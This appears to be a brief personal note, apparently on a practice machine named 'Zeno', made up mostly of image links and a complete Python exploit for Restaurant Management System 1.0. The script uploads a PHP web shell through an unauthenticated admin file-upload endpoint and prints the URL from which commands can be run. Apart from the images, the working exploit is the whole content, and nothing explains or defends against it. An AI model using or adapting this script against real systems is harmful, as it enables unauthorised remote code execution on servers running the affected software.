# Zeno
27 March 2022
09:00 AM







correct code::

\# Exploit Title: Restaurant Management System 1.0  - Remote Code Execution
\# Date: 2019-10-16
\# Exploit Author: Ibad Shah
\# Vendor Homepage: https://www.sourcecodester.com/users/lewa
\# Software Link: https://www.sourcecodester.com/php/11815/restaurant-management-system.html
\# Version: N/A
\# Tested on: Apache 2.4.41

#!/usr/bin/python

import requests
import sys

print ("""
    _  _   _____  __  __  _____   ______            _       _ _
  _| || |_|  __ \|  \/  |/ ____| |  ____|          | |     (_) |
 |_  __  _| |__) | \  / | (___   | |__  __  ___ __ | | ___  _| |_
  _| || |_|  _  /| |\/| |\___ \  |  __| \ \/ / '_ \| |/ _ \| | __|
 |_  __  _| | \ \| |  | |____) | | |____ >  <| |_) | | (_) | | |_
   |_||_| |_|  \_\_|  |_|_____/  |______/_/\_\ .__/|_|\___/|_|\__|
                                             | |
                                             |_|

""")
print ("Credits : All InfoSec (Raja Ji's) Group")
url = sys.argv[1]

if len(sys.argv[1]) < 8:
	print("[+] Usage : python rms-rce.py http://localhost:80/")
	exit()

print ("[+] Restaurant Management System Exploit, Uploading Shell")

target = url+"admin/foods-exec.php"

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Length": "327",
    "Content-Type": "multipart/form-data;boundary=---------------------------191691572411478" ,
    "Connection": "close",
	"Referer": "http://localhost:8081/rms/admin/foods.php",
	"Cookie": "PHPSESSID=4dmIn4q1pvs4b79",
	"Upgrade-Insecure-Requests": "1"

}

data = """

-----------------------------191691572411478
Content-Disposition: form-data; name="photo"; filename="reverse-shell.php"
Content-Type: text/html

<?php echo shell_exec($_GET["cmd"]); ?>
-----------------------------191691572411478
Content-Disposition: form-data; name="Submit"

Add
-----------------------------191691572411478--
"""
r = requests.post(target,verify=False, headers=headers,data=data)

print("[+] Shell Uploaded. Please check the URL : "+url+"images/reverse-shell.php")
































